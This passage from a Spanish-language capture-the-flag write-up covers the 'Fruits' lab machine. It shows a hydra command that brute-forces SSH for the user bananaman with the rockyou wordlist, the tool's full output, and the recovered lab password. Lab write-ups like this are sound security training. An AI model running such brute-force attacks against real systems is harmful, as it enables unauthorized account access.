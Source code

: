 <p align="center">
<img src="/assets/images/THL-writeup-fruits/Captura7.png">
</p>

Excelente, podemos ver el `/etc/passwd` y vemos un usuario llamado **bananaman** y que está activo el **servicio MySQL**.

Veamos si podemos aplicar fuerza bruta al usuario que encontramos.

<br>

<h2 id="FuerzaBruta">Aplicando Fuerza Bruta al Servicio SSH para Encontrar la Contraseña de un Usuario Utilizando Distintas Herramientas</h2>

Vamos a usar distintas herramientas que existen, para aplicar fuerza bruta al **servicio SSH** y así podamos encontrar la contraseña del **usuario bananaman**.

<br>

<h3 id="Hydra">Utilizando hydra Contra Servicio SSH</h3>

Esta es mi herramienta preferida para aplicar fuerza bruta.

Vamos a usar nuestro wordlist nuclear **rockyou.txt**, por lo que puede tardar un poco en decirnos si encontró una contraseña válida:

```bash
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.20 -s 22
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-02 15:05:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.20:22/
[STATUS] 226.00 tries/min, 226 tries in 00:01h, 14344177 to do in 1057:50h, 12 active
[22][ssh] host: 192.168.1.20   login: bananaman   password: celtic
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-02 15:06:56
```
